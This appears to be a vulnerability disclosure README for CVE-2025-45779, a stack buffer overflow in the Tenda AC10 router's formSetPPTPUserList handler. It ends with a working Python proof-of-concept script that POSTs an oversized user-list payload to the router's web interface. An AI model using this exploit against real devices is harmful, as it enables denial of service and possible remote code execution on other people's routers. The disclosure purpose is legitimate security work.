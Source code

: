 # CVE-2025-45779 - Tenda AC10 V1.0 Stack Buffer Overflow in `formSetPPTPUserList`

## Summary

A stack-based buffer overflow vulnerability exists in the `formSetPPTPUserList` handler of  all firmware versions in the V15.xx series of the Tenda AC10 router.. This vulnerability allows remote unauthenticated attackers to execute arbitrary code or cause a denial-of-service (DoS) condition via a specially crafted `list` parameter in an HTTP POST request.

- **CVE ID**: CVE-2025-45779

- **Vendor**: Shenzhen Tenda Technology Co., Ltd.  https://www.tenda.com.cn/

- **Product**: Tenda AC10 V1.0

- **Firmware Version**: All versions in the V15 series (e.g., V15.03.06.46, V15.03.06.47, etc.)

- **Vulnerability Type**: Stack Buffer Overflow

- **Attack Vector**: Remote

- **Impact**: Remote Code Execution, Denial of Service

- **Discoverer**: You Sun (independent security researcher)

  

---

## Affected Firmware

- Firmware version: `V15.03.06.47

- Official firmware download page: https://www.tendacn.com/download/detail-3796.html

<div align="center">
  <img src="./0.png" alt="demo" style="border: 2px solid black;" />
</div>


---

## Vulnerability Details

The vulnerability is located in the `formSetPPTPUserList` handler inside the `httpd` binary. When handling a POST request to `/goform/setPptpUserList`, the firmware copies the contents of the `list` parameter into a fixed-size stack buffer using unsafe string manipulation functions (e.g., `strcpy`, `sprintf`, etc.) without proper bounds checking.

By submitting a specially crafted payload that contains a large number of user entries, an attacker can overflow the buffer, leading to memory corruption, device crash, or potential arbitrary code execution with root privileges.
<div align="center">
<img src="./1.PNG" alt="demo" style="border: 2px solid black;" />
<img src="./2.PNG" alt="demo" style="border: 2px solid black;" />
<img src="./3.PNG" alt="demo" style="border: 2px solid black;" />
</div>

---
## Demo

<img src="./poc.gif" alt="demo" style="border: 2px solid black;" />


*The above GIF demonstrates the crash behavior when the vulnerability is triggered with the PoC.*

---

## Proof of Concept (PoC)：CVE-2025-45779-poc-TendaAC10.py

```python
import requests
cookie = {'Cookie':'SESSION_ID=2:1668665284:2','password': 'caw5gk'}
def gen_user(index):
    username = f"user{index:02d}".ljust(64, 'A')  # Each username is filled with 64 bytes
    password = f"pass{index}"
    uid = str(index)
    admin = "1"  # bypass admin check
    return f"{username};{password};{uid};{admin};x;x;x"

def build_payload(user_count=100):
    return "~" + "~".join([gen_user(i) for i in range(user_count)]) + "~"

def send_exploit(target_url):
    payload = build_payload()
    data = {
        "list": payload
    }

    print(f"[+] Sending payload to {target_url} ...")
    r = requests.post(target_url, data=data,cookies=cookie)
    print(f"[+] Response Status: {r.status_code}")
    print(f"[+] Response Body:\n{r.text}")
# router ip
base_url = "http://192.168.5.12"
set_url = f"{base_url}/goform/setPptpUserList"
try:
    send_exploit(set_url)
except Exception as e:
    print(f'An error  occurred: {e}')
```
